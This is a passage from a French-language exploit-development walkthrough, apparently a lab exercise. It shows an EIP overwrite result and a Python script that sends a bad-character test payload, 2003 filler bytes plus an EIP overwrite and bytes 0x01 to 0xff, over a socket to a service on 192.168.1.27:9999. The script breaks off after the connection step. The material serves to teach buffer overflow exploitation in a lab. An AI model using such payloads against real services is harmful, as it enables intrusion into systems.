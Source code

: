 📸 **Résultat : EIP = 42424242 (BBBB)**  

![Résultat EIP](./EIP.png)

---

### Étape 4 : Recherche de JMP ESP et des Bad Characters

#### 4.1 Identification des Bad Characters

Test des caractères interdits :

```python
#!/usr/bin/python
import sys, socket

badchars = (
    "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
    "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
    "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
    "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
    "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
    "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
    "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
    "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

shellcode = "A" * 2003 + "B" * 4 + badchars

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.27', 9999))

```
```bash
```